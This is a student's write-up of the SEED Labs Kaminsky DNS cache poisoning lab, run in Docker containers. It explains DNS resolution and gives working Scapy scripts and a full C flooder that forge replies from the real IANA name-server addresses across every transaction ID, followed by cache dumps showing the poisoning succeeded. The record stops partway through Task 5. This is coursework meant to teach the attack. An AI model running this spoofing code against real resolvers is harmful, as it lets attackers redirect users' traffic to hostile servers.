






# Kaminsky Attack Lab

For the project done in the Course Unit of Network Security one of the suggested labs was the Kaminsky Attack Lab, from SEED labs, with the intent of providing us with a better understanding of how remote DNS cache poisoning attacks are done.

# Introduction

An attack called Kaminsky attack is performed in this lab. Besides that, the following topics will be covered:

- How DNS works.
- DNS server setup.
- DNS cache poisoning attack.
- Spoofing DNS responses.
- Packet spoofing.

First of all, it's important to understand how is a DNS query performed. The following image depicts that process very clearly:

<figure align="center">
  
  <figcaption style="text-align: center;">Figure 1. The complete DNS Query Process</figcaption>
</figure>

In this case, the user wants to query the `www.example.com` domain. The first step is to query a DNS Root server (there are only 13 worldwide) and this response will redirect the user request to the `.com` DNS Server which will then be redirected to the `example.com`'s DNS Server. This last server indeed has the `www.example.com` IP stored in his zone file, meaning it will answer the DNS Resolver with the corresponding IP. The DNS query process is then complete. Further requests to `www.example.com` won't go through this entire process, as the result for this domain will be cached from the previous request.

## How does the Kaminsky Attack work?

<figure align="center">
  
  <figcaption style="text-align: center;">Figure 2. The Kaminsky Attack</figcaption>
</figure>

To defeat the caching effect, we can perform the Kaminsky attack, which consists of the steps shown in the figure above:

1. Query the DNS server for a random name in the target domain name. For example `abcdad.example.com`. Note that the DNS server will not have the corresponding IP address in its cache, so it will query the name server of the `example.com`.
2. We flood the victim server with spoofed DNS replies while it waits for a response from `example.com` DNS server. This response contains an IP resolution for the name queried but also an "Authoritative Name servers" record. We can set this record to be our malicious DNS server.
3. If we successfully respond to the victim before the legitimate name server, the victim server will replace the `example.com`'s domain legitimate name server with our malicious name server and, therefore, all future queries for this domain will be made to the attacker name server.

This attack is resilient against the caching effect because, if the attack fails, we can generate another random non-existing name on the target domain and repeat the attack. This way, a new query will always be made to the `example.com` name server, as the victim does not have the IP mapping for the new name. 

As a side note, our sample response in the spoofed packet would be something similar to this:

```
;; QUESTION SECTION:
;abcdad.example.com.        IN   A

;; ANSWER SECTION:
abcdad.example.com.   259200  IN   A   1.2.3.4

;; AUTHORITY SECTION:
example.com.          259200  IN   NS  ns.attacker32.com
```

After all this, some things will pose a challenge to us, the remote attackers, that is the fact that we can't see the performed DNS query so that it can be spoofed afterward. Typically, the DNS query has two data items that are hard to get for remote attackers. The first one is the source port number in the UDP header used by the DNS resolver and this value is a 16-bit random number. The second item is the 16-bit transaction ID in the DNS header. The spoofed reply to a DNS query must contain the correct values of these two numbers, otherwise, the reply will not be accepted. The attack is performed remotely, as mentioned, so there is no chance for us to sniff the query. We can only guess these two numbers. The chance is one out of 2^32 for each guess (16 bits for each value). In this lab, our guessing scope is only 2^16 because the source port used in the DNS query is fixed to `33333`, as stated in the lab details. So if everything goes well, we should be able to succeed in a couple of seconds.

# Tasks

## Task 1 - Environment Setup

After running the `docker-compose.yml` file we get four containers:
- User - `10.9.0.5`.
- Local DNS Server - `10.9.0.53`.
- Attacker Name server - `10.9.0.153`.
- Attacker - `10.9.0.1`.

<figure align="center">
  
  <figcaption style="text-align: center;">Figure 3. Network Configuration</figcaption>
</figure>

Note that even though the attacker container is located in the same LAN, we will simulate a remote attack, so packet sniffing should not be possible.

Notes:
- Recently, DNS servers usually randomize the source port number in the queries, but we will be using a **fixed port number** (33333), as mentioned above.
- **DNSSEC spoofing protection will be disabled**. DNSSEC strengthens authentication in DNS using digital signatures based on public-key cryptography. With DNSSEC, it's not DNS queries and responses themselves that are cryptographically signed, but rather DNS data itself is signed by the owner of the data. Every DNS zone has a public/private key pair. The zone owner uses the zone's private key to sign DNS data in the zone and generate digital signatures over that data. The zone's public key, however, is published in the zone itself for anyone to retrieve. Any recursive resolver that looks up data in the zone also retrieves the zone's public key, which it uses to validate the authenticity of the DNS data. The resolver confirms that the digital signature over the DNS data it retrieved is valid. If so, the DNS data is legitimate and is returned to the user, otherwise, the resolver assumes an attack, discards the data, and returns an error. Nevertheless, some vulnerabilities might be explored, as shown [here](https://web.mit.edu/6.033/www/papers/dnssec.pdf). 

Moving on to the **Testing the DNS Setup** section, when requesting the `ns.attacker32.com` domain using the `dig` command we get the following result:

```
root@127db73ceb12:/# dig ns.attacker32.com

; <<>> DiG 9.16.1-Ubuntu <<>> ns.attacker32.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 4359
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 31ef276333905dfc01000000626911ca0ee6af78278b42db (good)
;; QUESTION SECTION:
;ns.attacker32.com.             IN      A

;; ANSWER SECTION:
ns.attacker32.com.      259200  IN      A       10.9.0.153

;; Query time: 0 msec
;; SERVER: 10.9.0.53#53(10.9.0.53)
;; WHEN: Wed Apr 27 09:50:02 UTC 2022
;; MSG SIZE  rcvd: 90
```

Indeed the request is first handed to the Local DNS server at `10.9.0.53` and then forwarded to the attacker name server at `10.9.0.153` which will give us the `ns.attacker32.com` IP, which is `10.9.0.153`.

Lastly, when fetching the IP address of `www.example.com`, we first use the command `dig www.example.com` which will query the official name server:

```
root@127db73ceb12:/# dig www.example.com
                                                        
; <<>> DiG 9.16.1-Ubuntu <<>> www.example.com                                                                       
;; global options: +cmd                                                                                             
;; Got answer:                                                                                                      
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 31851                                                           
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1                                                
                                                                                                                    
;; OPT PSEUDOSECTION:                                                                                               
; EDNS: version: 0, flags:; udp: 4096                                                                               
; COOKIE: 5860c8bcc44ff3ef010000006269144af90780d4bd797671 (good)                                                   
;; QUESTION SECTION:                                                                                                
;www.example.com.               IN      A                                                                           
                                                                                                                    
;; ANSWER SECTION:                                                                                                  
www.example.com.        86400   IN      A       93.184.216.34                                                       
                                                                                                                    
;; Query time: 1196 msec                                                                                            
;; SERVER: 10.9.0.53#53(10.9.0.53)                                                                                  
;; WHEN: Wed Apr 27 10:00:42 UTC 2022                                                                               
;; MSG SIZE  rcvd: 88
```

The retrieved IP address is `93.184.215.34`.

If we wanted to send the request directly to the `ns.attacker32.com`, we would do the following:

```
root@127db73ceb12:/# dig @ns.attacker32.com www.example.com
                                                                                                                    
; <<>> DiG 9.16.1-Ubuntu <<>> @ns.attacker32.com www.example.com                                                    
; (1 server found)                                                                                                  
;; global options: +cmd                                                                                             
;; Got answer:                                                                                                      
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 13141                                                           
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1                                             
                                                                                                                    
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 9915aa30b78e943401000000626914ec2218fd55e4628430 (good)
;; QUESTION SECTION:
;www.example.com.               IN      A

;; ANSWER SECTION:
www.example.com.        259200  IN      A       1.2.3.5

;; Query time: 0 msec
;; SERVER: 10.9.0.153#53(10.9.0.153)
;; WHEN: Wed Apr 27 10:03:24 UTC 2022
;; MSG SIZE  rcvd: 88
```

In this case, we get a different IP for the same domain: `1.2.3.5`. The request is done specifically to the `ns.attacker32.com` name server and, as its value was cached due to the first DNS query performed, we contact it directly, and according to the `/etc/bind/zone_example.com` file in the attacker's name server, this should be the corresponding IP address for the `www.example.com` domain, as shown here:

```
root@9ab2d93f7aeb:/# cat /etc/bind/zone_example.com 
$TTL 3D
@       IN      SOA   ns.example.com. admin.example.com. (
                2008111001
                8H
                2H
                4W
                1D)

@       IN      NS    ns.attacker32.com.

@       IN      A     1.2.3.4
www     IN      A     1.2.3.5
ns      IN      A     10.9.0.153
*       IN      A     1.2.3.6
```

## Our goal

Our goal in this lab is to redirect the user to a machine B when he tries to get to a machine A using A's domain name. This can be done by poisoning the DNS server's cache so that when he requests the address corresponding to A's domain name, it answers with B's address. Overall, that's the entire purpose of the Kaminsky attack itself.

> Implementing the Kaminsky attack all at once is quite challenging, so we break it down into several sub-tasks. In Task 2, we construct the DNS request for a random hostname in the `example.com` domain. In Task 3, we construct a spoofed DNS reply from `example.com`'s name server. In Task 4, we put everything together to launch the Kaminsky attack and in Task 5 we verify the impact of the attack.

## Task 2 - Construct DNS request

Since the Kaminsky Attack was split into several tasks, the first goal is to make the initial DNS Request.
This task is successful if we can trigger the DNS Server into sending DNS Queries so that we can spoof DNS Replies in the future. The following python script shows how a simple DNS request can be built using Scapy:

```python
from scapy.all import * 
import random, string

def randomword(length):
   letters = string.ascii_lowercase
   return ''.join(random.choice(letters) for i in range(length))

attackerIP = "10.9.0.1"
apolloIP = "10.9.0.53"

Qdsec = DNSQR(qname=randomword(5) + '.example.com')
dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0,arcount=0, qd=Qdsec)

ip = IP(dst=apolloIP, src=attackerIP)
udp = UDP(dport=53, sport=RandShort(), chksum=0)
request = ip/udp/dns

send(request) 
```

Notice that we decided to expand a bit the scope of this task by putting random characters at the beginning of the `example.com` domain, which will be something needed later on.

The captured log can be seen [here](logs/task2.pcapng). Packet number 3 corresponds to our sent DNS query for the `ujrus.example.com` domain and we can also see that the queried domain wasn't found, as shown in packet number 115:

<figure align="center">
  
  <figcaption style="text-align: center;">Figure 4. No such name for random domain name</figcaption>
</figure>

We can also check this by running the `dig` command:

```
root@127db73ceb12:/# dig ujrus.example.com

; <<>> DiG 9.16.1-Ubuntu <<>> ujrus.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 48492
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 853c87e30b0f14e701000000627683849963c6b906635d98 (good)
;; QUESTION SECTION:
;ujrus.example.com.             IN      A

;; AUTHORITY SECTION:
example.com.            3600    IN      SOA     ns.icann.org. noc.dns.icann.org. 2022040423 7200 3600 1209600 3600

;; Query time: 783 msec
;; SERVER: 10.9.0.53#53(10.9.0.53)
;; WHEN: Sat May 07 14:34:44 UTC 2022
;; MSG SIZE  rcvd: 139
```

It returns an authoritative response of type SOA (Start of a zone of Authority), as in the figure above, which includes information of the primary name server for this zone (`ns.icann.org`),  responsible authority's mailbox (`noc.dns.icann.org`) and serial number, and several intervals, most of them related to the zone transferal between primary and secondary name servers. Also, notice that we of course didn't get any IP for the queried domain in the Question Section because simply there is no mapping in the name server's zone file.

## Task 3 - Spoof DNS Replies

The second main goal is to prove that we can spoof the DNS replies from the `example.com` domain. In order to do this, we needed to find out the IP addresses of `example.com`'s legitimate name servers. To do this we just need to query the zone's authoritative name server by doing:

```
┌──(kali㉿kali)-[~/…/category-network/DNS_Remote/Labsetup/volumes]
└─$ dig SOA www.example.com 

; <<>> DiG 9.18.0-2-Debian <<>> SOA www.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 24354
;; flags: qr rd ra ad; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;www.example.com.               IN      SOA

;; AUTHORITY SECTION:
example.com.            434     IN      SOA     ns.icann.org. noc.dns.icann.org. 2022040423 7200 3600 1209600 3600

;; Query time: 107 msec
;; SERVER: 8.8.8.8#53(8.8.8.8) (UDP)
;; WHEN: Tue May 10 09:18:27 EDT 2022
;; MSG SIZE  rcvd: 100
```

This command returns the SOA record for the `www.example.com` domain. As mentioned, the `ns.icann.org` is an authoritative name server. We then query `ns.icann.org` directly to find the authoritative name servers for the `www.example.com` domain:

```
┌──(kali㉿kali)-[~]
└─$ dig @ns.icann.org www.example.com

; <<>> DiG 9.18.0-2-Debian <<>> @ns.icann.org www.example.com
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 12758
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;www.example.com.               IN      A

;; ANSWER SECTION:
www.example.com.        86400   IN      A       93.184.216.34

;; AUTHORITY SECTION:
example.com.            86400   IN      NS      a.iana-servers.net.
example.com.            86400   IN      NS      b.iana-servers.net.

;; Query time: 115 msec
;; SERVER: 199.4.138.53#53(ns.icann.org) (UDP)
;; WHEN: Mon May 09 17:04:47 EDT 2022
;; MSG SIZE  rcvd: 108
```

The output of this command gave us the two name servers of the `example.com` domain: `a.iana-servers.net` and `b.iana-servers.net`.

With this information we were able to use the `dig` command to find their IP addresses:

```
> dig b.iana-servers.net
; <<>> DiG 9.16.1-Ubuntu <<>> b.iana-servers.net
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 13091
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 65494
;; QUESTION SECTION:
;b.iana-servers.net.        IN    A

;; ANSWER SECTION:
b.iana-servers.net.    980    IN    A    199.43.133.53

;; Query time: 0 msec
;; SERVER: 127.0.0.53#53(127.0.0.53)
;; WHEN: Sat May 07 11:33:28 EDT 2022
;; MSG SIZE  rcvd: 63

> dig a.iana-servers.net

; <<>> DiG 9.16.1-Ubuntu <<>> a.iana-servers.net
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 25859
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 65494
;; QUESTION SECTION:
;a.iana-servers.net.        IN    A

;; ANSWER SECTION:
a.iana-servers.net.    1465    IN    A    199.43.135.53

;; Query time: 12 msec
;; SERVER: 127.0.0.53#53(127.0.0.53)
;; WHEN: Sat May 07 11:33:32 EDT 2022
;; MSG SIZE  rcvd: 63
```

As seen, the IP address for `a.iana-servers.net` is `199.43.135.53`, and the IP address of `b.iana-servers.net` is `199.43.133.53`. With these IP addresses, we can finish the task, as we now know which IP addresses we need to spoof. 

In the following code, we start by sending a request to the local DNS server which will trigger a DNS request. While Apollo, our DNS resolver, waits for the reply, the attacker will send Apollo the spoofed replies. These replies look like they came from the `example.com` name servers and they provide an IP resolution for `www.example.com` (`1.2.3.5`). The attacker also provides an "Authoritative Name servers" record, indicating `ns.attacker32.com` as the name server for the `example.com` domain so that any subsequent requests for this domain are redirected to this name server. This is the most important part of the spoofed reply.

```python
from scapy.all import * 

attackerIP = "10.9.0.1"
apoloIP = "10.9.0.53"
nsIPs = ["199.43.133.53", "199.43.135.53"]

domain = 'example.com'
name = 'www.example.com'
ns = 'ns.attacker32.com'
port = RandShort()

# Send request
Qdsec = DNSQR(qname=name)
dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0,arcount=0, qd=Qdsec)
ip = IP(dst=apoloIP, src=attackerIP)
udp = UDP(dport=53, sport=port, chksum=0)
request = ip/udp/dns

send(request)

# Send spoofed replies 
for ipns in nsIPs:
    Qdsec = DNSQR(qname=name)
    Anssec = DNSRR(rrname=name, type='A', rdata="1.2.3.5", ttl=259200)
    NSsec = DNSRR(rrname=domain, type='NS', rdata=ns, ttl=259200)
    dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, qdcount=1, ancount=1, nscount=1, arcount=0,
        qd=Qdsec, an=Anssec, ns=NSsec)
    ip = IP(dst=apoloIP, src=ipns)
    udp = UDP(dport=33333, sport=53, chksum=0)
    reply = ip/udp/dns
    send(reply)
```

The request can be seen in packet number 3, and the spoofed replies can be seen in packets number 6 and 7 in the [capture file](logs/task3.pcapng).

Note that the transaction ID used in this task is `0xAAAA` which will be different from the one used in the actual request. This causes the spoof attempt to fail. This will be addressed in the next task. One other thing that also restricts the success of the spoofed reply is that the spoofed packets, as can be seen in the capture file, are sent too early, therefore they will be classified as illegitimate. 

## Task 4 - Launch the Kaminsky Attack

The last step is to put the attack into action: flood the target local DNS server with these spoofed replies. As stated in the Seed Labs guide, the python script might be too slow to carry on this attack. To fix this issue, we were given a code skeleton for the C code for us to fill, which is much faster. Using a hybrid approach, we first use Scapy to generate a DNS packet template, which is stored in a file. We then load this template into a C program, make small changes to some of the fields, and then send out the packet. 

In the python script, we didn't make many changes. The ones that are important to mention are the writing of the request to a file named `ip_req.bin` and the spoofed response packet to a file named `ip_resp.bin`:


```python
from scapy.all import * 

attackerIP = "10.9.0.1"
apoloIP = "10.9.0.53"
nsIPs = ["199.43.133.53", "199.43.135.53"]

domain = 'example.com'
name = 'aaaaa.example.com'
ns = 'ns.attacker32.com'
port = RandShort()

# DNS Query
Qdsec = DNSQR(qname=name)
dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0,arcount=0, qd=Qdsec)
ip = IP(dst=apoloIP, src=attackerIP)
udp = UDP(dport=53, sport=33333, chksum=0)
request = ip/udp/dns

# Save the packet to a file
with open('ip_req.bin', 'wb') as f:
    f.write(bytes(request))

# Spoofed DNS reply
Qdsec = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata="1.2.3.5", ttl=259200)
NSsec = DNSRR(rrname=domain, type='NS', rdata=ns, ttl=259200)
dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, qdcount=1, ancount=1, nscount=1, arcount=0,
    qd=Qdsec, an=Anssec, ns=NSsec)
ip = IP(dst=apoloIP, src=nsIPs[0])
udp = UDP(dport=33333, sport=53, chksum=0)
reply = ip/udp/dns
with open('ip_resp.bin', 'wb') as f:
    f.write(bytes(reply))
```

In the C program, we load the request packet from the `ip_req.bin` file and response packet from the `ip_resp.bin` file, and use it as our packet template, based on which we create many similar packets, and flood the target local DNS servers with these spoofed replies. For each reply, we change three places: the **transaction ID** and the **prefix name** (prefix.example.com) occurred in two places (the question section and the answer section). The transaction ID is at a fixed place (offset 28 from the beginning of our IP packet), but the offset for the prefix depends on the length of the domain name. We can use a binary editor program, such as bless, to view the binary file `ip.bin` and find the two offsets of the prefix. In our packet, they are at offsets 41 and 64, as mentioned in the lab guidelines. We also edited the authoritative name servers to be the same as the ones for the `example.com` domain. This offset was at 12 from the beginning of the packet, as it can be calculated using the `ipheader` struct provided in the C script. 

So, in an infinite loop, we first generate a random prefix and set the random domain name of the DNS request that will trigger the DNS local server to perform an iterative search to try to fetch the IP address for that random domain and invoke the `send_dns_request` function that will simply send that packet. We also set the random domain for the DNS spoofed reply both in the question and answer field, as mentioned, and invoke the `send_dns_response` function. This function loops through all the 16-bit transaction id values and in each iteration set the different `example.com` legitimate name servers in the packet and send the two spoofed replies.

The final C script can be seen here:

```c
#include <stdlib.h>
#include <arpa/inet.h>
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <time.h>

#define MAX_FILE_SIZE 1000000


/* IP Header */
struct ipheader {
  unsigned char      iph_ihl:4, //IP header length
                     iph_ver:4; //IP version
  unsigned char      iph_tos; //Type of service
  unsigned short int iph_len; //IP Packet length (data + header)
  unsigned short int iph_ident; //Identification
  unsigned short int iph_flag:3, //Fragmentation flags
                     iph_offset:13; //Flags offset
  unsigned char      iph_ttl; //Time to Live
  unsigned char      iph_protocol; //Protocol type
  unsigned short int iph_chksum; //IP datagram checksum
  struct  in_addr    iph_sourceip; //Source IP address 
  struct  in_addr    iph_destip;   //Destination IP address 
};

void send_raw_packet(char * buffer, int pkt_size);
void send_dns_request( );
void send_dns_response( );

int main()
{
  srand(time(NULL));

  // Load the DNS request packet from file
  FILE * f_req = fopen("ip_req.bin", "rb");
  if (!f_req) {
     perror("Can't open 'ip_req.bin'");
     exit(1);
  }
  unsigned char ip_req[MAX_FILE_SIZE];
  int n_req = fread(ip_req, 1, MAX_FILE_SIZE, f_req);

  // Load the first DNS response packet from file
  FILE * f_resp = fopen("ip_resp.bin", "rb");
  if (!f_resp) {
     perror("Can't open 'ip_resp.bin'");
     exit(1);
  }
  unsigned char ip_resp[MAX_FILE_SIZE];
  int n_resp = fread(ip_resp, 1, MAX_FILE_SIZE, f_resp);

  char a[26]="abcdefghijklmnopqrstuvwxyz";

  while (1) {
    // Generate a random name with length 5
    char name[5];
    for (int k=0; k<5; k++)  name[k] = a[rand() % 26];

    /* Step 1. Send a DNS request to the targeted local DNS server.
               This will trigger the DNS server to send out DNS queries */

    // Modify the name in the question field (offset=41)
    memcpy(ip_req+41, name , 5);
    send_dns_request(ip_req, n_req);

    /* Step 2. Send many spoofed responses to the targeted local DNS server,
               each one with a different transaction ID. */
    
    // Modify the name in the question field (offset=41)
    memcpy(ip_resp+41, name, 5);
    // Modify the name in the answer field (offset=64)
    memcpy(ip_resp+64, name , 5);

    send_dns_response(ip_resp, n_resp);
    
  }
}

/* Use for sending DNS request.
 * Add arguments to the function definition if needed.
 * */
void send_dns_request(unsigned char *packet, int pkt_size)
{
  printf("Sending Spoofed Query!\n");
  send_raw_packet(packet, pkt_size);
}


/* Use for sending forged DNS response.
 * Add arguments to the function definition if needed.
 * */
void send_dns_response(unsigned char *packet, int pkt_size)
{
  char ns[15] = "199.43.133.53";
  char ns2[15] = "199.43.135.53";

  for (unsigned short id = 0; id < 65535; id++) {
    // Modify the transaction ID field (offset=28)
    unsigned short id_net_order = htons(id);
    memcpy(packet+28, &id_net_order, 2);

    // Copy IP address (offset=12)
    int ip_address = (int) inet_addr(ns);
    memcpy(packet+12, (void *) &ip_address, 4);
    send_raw_packet(packet, pkt_size);

    // Copy IP address (offset=12)
    int ip_address2 = (int) inet_addr(ns2);
    memcpy(packet+12, (void *) &ip_address2, 4);
    send_raw_packet(packet, pkt_size);
  }
}


/* Send the raw packet out 
 *    buffer: to contain the entire IP packet, with everything filled out.
 *    pkt_size: the size of the buffer.
 * */
void send_raw_packet(char * buffer, int pkt_size)
{
  struct sockaddr_in dest_info;
  int enable = 1;

  // Step 1: Create a raw network socket.
  int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);

  // Step 2: Set socket option.
  setsockopt(sock, IPPROTO_IP, IP_HDRINCL,
       &enable, sizeof(enable));

  // Step 3: Provide needed information about destination.
  struct ipheader *ip = (struct ipheader *) buffer;
  dest_info.sin_family = AF_INET;
  dest_info.sin_addr = ip->iph_destip;

  // Step 4: Send the packet out.
  sendto(sock, buffer, pkt_size, 0,
       (struct sockaddr *)&dest_info, sizeof(dest_info));
  close(sock);
}
```

We then compile the C script by doing:

```
$ gcc -o attacker attack.c
```

And run the attack! After a small amount of time, we check the Local DNS server's cache to see whether the attack was successful or not. We can do that by dumping the DNS cache to a file and finding the word "attacker", because we know the attack was successful if there's a record indicating that the name server for `example.com` is `ns.attacker32.com`:

```
root@eca5daa85ebc:/volumes# rndc dumpdb -cache && grep attacker /var/cache/bind/dump.db
ns.attacker32.com.      615587  \-AAAA  ;-$NXRRSET
; attacker32.com. SOA ns.attacker32.com. admin.attacker32.com. 2008111001 28800 7200 2419200 86400
example.com.            777577  NS      ns.attacker32.com.
; ns.attacker32.com [v4 TTL 1787] [v6 TTL 10787] [v4 success] [v6 nxrrset]
```

And indeed that's what happens! Also, we can check the success of the attack by sniffing the packets going through the network and finding a packet whose destination is `10.9.0.153` that corresponds to the malicious DNS server. If this happens, it means that while the attack is being performed, the DNS queries for random domains are already being redirected to the `ns.attacker32.com` name server, meaning we were able to succeed:

<figure align="center">
  
  <figcaption style="text-align: center;">Figure 5. Kaminsky attack success</figcaption>
</figure>

## Task 5 - Result Verification

In this task, we are asked to verify the results obtained from the Kaminsky attack performed in the previous task. We know that if the previous attack was successful, in the local DNS server's cache we will have an `NS` record for `example.com` with `ns.attacker32.com`, instead of the domain's legitimate namer servers `a.iana-servers.net` and `b.iana-servers.net`. 

To better clarify this, we ran two `dig` commands in the user's container. The first one can be seen here:

```
root@e570673bd89b:/# dig www.example.com

; <<>> DiG 9.16.1-Ubuntu <<>> www.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 16147
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

